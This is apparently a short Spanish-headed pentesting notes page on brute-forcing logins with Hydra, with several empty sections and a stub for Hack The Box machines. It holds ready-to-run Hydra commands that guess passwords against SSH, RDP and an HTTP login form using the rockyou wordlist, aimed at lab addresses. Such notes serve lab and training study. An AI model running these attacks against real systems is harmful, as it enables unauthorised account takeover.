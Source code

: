 
## DESCRIPTION



#### Mas información
* 


## EXPLOITATION

### OPTION 1: HYDRA

```
#SSH
sudo hydra -l george -P /usr/share/wordlists/rockyou.txt -s 2222 ssh://192.168.50.201

#RDP

sudo hydra -L /usr/share/wordlists/dirb/others/names.txt -p "SuperS3cure1337#" rdp://192.168.50.202

#
```


### OPTION 1: HYDRA POST FORM

```
sudo hydra -l user -P /usr/share/wordlists/rockyou.txt 192.168.50.201 http-post-form "/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid"
```

![[Pasted image 20230516125031.png]]



## MACHINES

* Hack The Box: 

**!!NOTA IMPORTANTE!!** 